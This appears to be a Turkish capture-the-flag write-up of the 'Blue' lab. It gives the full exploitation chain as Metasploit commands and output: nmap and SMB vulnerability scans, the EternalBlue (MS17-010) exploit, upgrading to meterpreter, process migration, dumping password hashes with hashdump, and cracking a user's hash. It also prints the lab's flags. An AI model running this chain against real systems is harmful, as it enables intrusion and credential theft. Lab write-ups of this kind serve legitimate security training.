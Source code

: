 # Blue CTF 

## 1.Adım Ping Taraması
```bash
ping Machine_IP
```
## 2.Adım Nmap Tarama
```bash
nmap --top-ports 100 -sV Machine_IP
```
Nmap Tarama Sonuçları:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 15:02 EDT
Nmap scan report for Machine_IP
Host is up (0.067s latency).
Not shown: 93 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## 3.Adım SMB Güvenlik Açığı Tarama
```bash
nmap --script="smb-vuln-*" Machine_IP
```
SMB Güvenlik Açığı Sonuçları
```bash
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
```
## 4.Adım Metasploit'te Açığın Aranması
```bash
msfconsole
msf6> search ms17 010
```
Eşleşen Moduller: 
```bash
   #   Adı                                          Açıklama Tarihi  Sıralama   Kontrol  Açıklama
   -   ----                                         ---------------  --------  -------  -----------
   0   exploit/windows/smb/ms17_010_eternalblue     2017-03-14       ortalama  Evet    MS17-010 EternalBlue SMB Uzak Windows Kernel Havuzu Bozulması
   1     \_ hedef: Windows Server 2012              .                .        .      .
   2     \_ hedef: Windows 10 Pro                   .                .        .      .
   3     \_ hedef: Windows 10 Enterprise Evaluation .                .        .      .
   4  exploit/windows/smb/ms17_010_psexec          2017-03-14       normal   Evet    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Uzak Windows Kod Çalıştırma
```
## 5.Adım Exploiti Kullanma ve Ayarlarının Yapılması
```bash
msf6> use 0
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost machine_ip
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
## 6.Adım Shell to Meterpreter
```bash
msf6> search shell_to_meterpreter
msf6> use 0
msf6> set sessions Session_id (session idyi ogrenmek icin oncesinde msf6> sessions -l)
msf6> run
```
Yeni Oturumla Etkileşim
```bash
msf6> sessions -l
msf6> sessions -i New_Session_ID
```
## 7.Adım Meterpreter Komutları
İşlemleri Görüntüleme
```bash
ps  #Root yetkisiyle çalışcan processleri inceliyoruz.
```
Root Sürecine Geçiş 
```bash
migrate 828  # (svchost.exe'nin PID'si)
```
Hashleri Dökme
```bash
hashdump
```
Hash Döküm Sonuçları
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
## 8.Adım Joh'un Şifresinin Çözülmesi
```bash
ffb43f0de35be4d9917ac0cc8ad57f8d --> alqfna22
```
## 9.Adım Flagleri Bulma
Flag 1
```bash
C:\>dir
C:\>type flag1.txt
flag{access_the_machine}
```
Flag 2
```bash
C:\Users\Jon\Contacts>dir /s /p C:\flag2.txt
C:\Users\Jon\Contacts>type C:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```
Flag 3
```bash
C:\Users\Jon\Documents>dir
C:\Users\Jon\Documents>type flag3.txt
flag{admin_documents_can_be_valuable}
```

